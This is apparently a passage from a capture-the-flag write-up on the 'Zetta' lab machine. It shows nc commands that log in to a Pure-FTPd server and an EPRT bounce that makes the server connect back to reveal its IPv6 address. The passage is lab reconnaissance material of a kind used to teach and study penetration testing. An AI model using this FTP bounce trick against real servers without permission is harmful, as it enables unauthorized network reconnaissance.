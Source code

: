 First, I noticed all the hints towards IPv6 earlier, but I don’t have a way to scan Zetta on IPv6 without knowing it’s IPv6 address. I can bounce back to myself on IPv6 and see the address that connects.

I’ll need to know my IPv6 address:

```

root@kali# ip addr show dev tun0
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none 
    inet 10.10.14.5/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1003/64 scope global 
       valid_lft forever preferred_lft forever
    inet6 fe80::fb67:c55a:83d8:dcc1/64 scope link stable-privacy 
       valid_lft forever preferred_lft forever

```

I’ll connect to Zetta on FTP using `nc`:

```

root@kali# nc 10.10.10.156 21
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 2 of 500 allowed.
220-Local time is now 03:36. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
USER bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
331 User bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb OK. Password required
PASS bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
230-This server supports FXP transfers
230-OK. Current restricted directory is /
230-0 files used (0%) - authorized: 10 files
230 0 Kbytes used (0%) - authorized: 1024 Kb

```

Now I’ll enter a `EPRT` command to tell the server where to connect using the [RFC-2428 syntax](https://tools.ietf.org/html/rfc2428) and my global IPv6:

```

EPRT |2|dead:beef:2::1003|443
501 Sorry, but I won't connect to ports < 1024
EPRT |2|dead:beef:2::1003|2222
200-FXP transfer: from 10.10.14.5 to dead:beef:2::1003%144
200 PORT command successful

```

